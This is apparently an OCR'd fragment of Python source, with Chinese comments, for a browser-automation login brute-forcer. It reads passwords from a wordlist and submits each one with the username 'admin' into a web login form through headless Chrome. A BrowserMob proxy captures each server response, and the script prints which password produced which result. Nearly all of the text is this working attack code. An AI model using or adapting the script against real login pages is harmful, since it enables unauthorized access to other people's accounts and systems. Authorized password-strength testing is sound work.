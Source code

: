 ```
self.result_handing()
self.end_env()
def init_dict_list(self,username,password_dir):
with open(password_dir,"r") as f:
self.password_list = f.readlines()
for password in self.password_list:
self.fill_out_a_form(username,password.replace('\n',''))
self.wget_response()
def init_browsermobproxy(self):
self.server = Server("browsermob-proxy-2.1.4\\bin\\browsermob-proxy.bat")#browermobproxy文件的位置
self.server.start()
self.proxy = self.server.create_proxy()
self.chrome_options = Options()
self.chrome_options.add_argument('--proxy-server={0}'.format(self.proxy.proxy))
self.chrome_options.add_argument('--headless')#这里加了一个参数,不启动chrome浏览器,省去了启动的时间,更快了
def init_chrome(self):
try:
self.chrome = webdriver.Chrome(chrome_options=self.chrome_options)
self.proxy.new_har("ht_list2", options={'captureContent': True})
self.chrome.get(self.url)
except Exception as e:
print("Chrome浏览器启动失败！\n")
return 0
def fill_out_a_form(self,username,password):
self.chrome.find_element_by_css_selector("[class='ivu-input ivu-input-with-prefix']").send_keys(
username)
self.chrome.find_element_by_css_selector(
"[class='ivu-input  ivu-input-with-suffix']").send_keys(password)
self.chrome.find_element_by_css_selector(("[class='ivu-btn ivu-btn-primary  ivu-btn-large']")).click()
self.chrome.find_element_by_css_selector("[class='iivu-input ivu-input-with-prefix']").clear()
self.chrome.find_element_by_css_selector("[class='ivu-input  ivu-input-with-suffix']").clear()
def wget_response(self):
result = self.proxy.har
for entry in result['log']['entries']:
_url = entry['request']['url']
print(_url)
if "password" in _url and "username" in _url:
_response = entry['response']
_content = _response['content']
# 获取接口返回内容
self.response_result.append(_response['content']['text'])
self.result = dict(zip(self.password_list, self.response_result))
def result_handing(self):
for key,value in self.result.items():
print("密码：{key} :结果：{result}".format(key=key,result=value))
def end_env(self):
try:
self.server.stop()
self.chrome.quit()
find_netstat = os.popen("netstat -ano | findstr 8080")#开的什么端口杀什么端口的进程
pid = find_netstat.read().split()[4]
kail_pid = os.popen("taskkill /F /PID {PID}".format(PID=pid))
print(kail_pid.read())
return 1
except IndexError as e:
return 0

Brower = Brower_scan(url,'admin','password.txt')
```
